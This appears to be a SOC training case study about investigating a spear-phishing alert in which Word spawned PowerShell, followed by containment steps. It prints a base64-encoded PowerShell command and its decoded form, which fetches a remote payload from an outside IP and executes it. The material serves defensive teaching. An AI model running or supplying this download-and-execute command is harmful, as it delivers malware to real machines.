

# Case Study 01: Spear Phishing with Malicious Macro Payload

[⬅️ Back to Scenarios](./README.md) | [Next: Impossible Travel ➡️](./02_Scenario_Suspicious_Impossible_Travel_Login.md)

---

### 1. Alert Trigger
An alert fires in Microsoft Defender for Endpoint:
`Suspicious Process Execution: WINWORD.EXE spawned POWERSHELL.EXE on host WS-FINANCE-04`

### 2. Forensic Timeline & Evidence



### 3. Analyst Investigation Steps

#### Step 1: Decode the Obfuscated Command Line
In the EDR telemetry, the command line is:
`powershell.exe -nop -w hidden -enc aWV4IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTk0LjI2LjI5LjExL3BheWxvYWQuYmluJyk=`

Using CyberChef (Base64 Decode with UTF-16LE encoding):
```powershell
iex (New-Object Net.WebClient).DownloadString('http://194.26.29.11/payload.bin')
```

#### Step 2: Immediate Containment
1. Isolate workstation `WS-FINANCE-04` via Defender for Endpoint.
2. Block destination IP `194.26.29.11` on perimeter firewalls.
3. Purge the phishing email from all employee inboxes across the entire tenant via Microsoft 365 Defender Explorer.
